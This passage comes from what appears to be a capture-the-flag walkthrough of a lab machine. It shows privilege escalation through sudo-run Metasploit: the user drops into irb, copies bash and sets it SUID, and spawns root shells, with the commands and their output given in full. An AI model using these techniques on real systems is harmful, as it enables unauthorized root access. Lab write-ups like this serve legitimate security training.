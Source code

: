 ```

pwn@scriptkiddie:~$ sudo /opt/metasploit-framework-6.0.9/msfconsole
...[snip]...
msf6 >

```

One way to get a shell from here is to drop to the integrated Ruby shell, `irb`:

```

msf6 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

irb: warn: can't alias jobs from irb_jobs.
>> 

```

From there, I can run `system` to run arbitrary commands. One way is to copy `bash` and set it SUID:

```

>> system("cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf")
=> true

```

Now that will give a root shell:

```

kid@scriptkiddie:~$ /tmp/0xdf -p
0xdf-5.0# id
uid=1000(kid) gid=1000(kid) euid=0(root) groups=1000(kid)

```

Even simpler, I could run `system("bash")` from `irb`:

```

>> system("bash")
root@scriptkiddie:/home/pwn#

```

Simpler yet, I can run terminal commands from the MSF prompt:

```

msf6 > bash                                                                    
[*] exec: bash

root@scriptkiddie:/home/pwn#

```
